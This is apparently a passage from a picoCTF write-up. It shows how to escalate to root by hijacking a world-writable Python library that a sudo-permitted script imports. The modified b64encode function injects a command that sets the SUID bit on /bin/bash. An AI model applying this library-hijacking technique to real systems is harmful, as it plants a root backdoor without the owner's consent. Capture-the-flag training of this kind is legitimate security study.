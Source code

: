 **However, look at the file permission closely:**
```shell
-rwxrwxrwx
```

In the last three permissions, we see `rwx`, which means it's world-readable, ***writeable***, and executable!!

That being said, we can hijack it by **modifiying that library**!!!

**Then, let's check our sudo permission:**
```shell
picoctf@challenge:~$ sudo -l
Matching Defaults entries for picoctf on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoctf may run the following commands on challenge:
    (ALL) /usr/bin/vi
    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py
```

We can execute `/usr/bin/python3 /home/picoctf/.server.py` as root without our user's password!

**Now, let's modify the `base64.py` library.**

Since the `.server.py` script is using function `b64encode()`, we can modify that function:

```shell
picoctf@challenge:~$ vi /usr/lib/python3.8/base64.py
```

**Original:**
```py
def b64encode(s, altchars=None):
    """Encode the bytes-like object s using Base64 and return a bytes object.

    Optional altchars should be a byte string of length 2 which specifies an
    alternative alphabet for the '+' and '/' characters.  This allows an
    application to e.g. generate url or filesystem safe Base64 strings.
    """
    encoded = binascii.b2a_base64(s, newline=False)
    if altchars is not None:
        assert len(altchars) == 2, repr(altchars)
        return encoded.translate(bytes.maketrans(b'+/', altchars))
    return encoded
```

**Modified:**
```py
def b64encode(s, altchars=None):
    """Encode the bytes-like object s using Base64 and return a bytes object.

    Optional altchars should be a byte string of length 2 which specifies an
    alternative alphabet for the '+' and '/' characters.  This allows an
    application to e.g. generate url or filesystem safe Base64 strings.
    """
    import os
    os.system('chmod +s /bin/bash')
    
    encoded = binascii.b2a_base64(s, newline=False)
    if altchars is not None:
        assert len(altchars) == 2, repr(altchars)
        return encoded.translate(bytes.maketrans(b'+/', altchars))
    return encoded
```
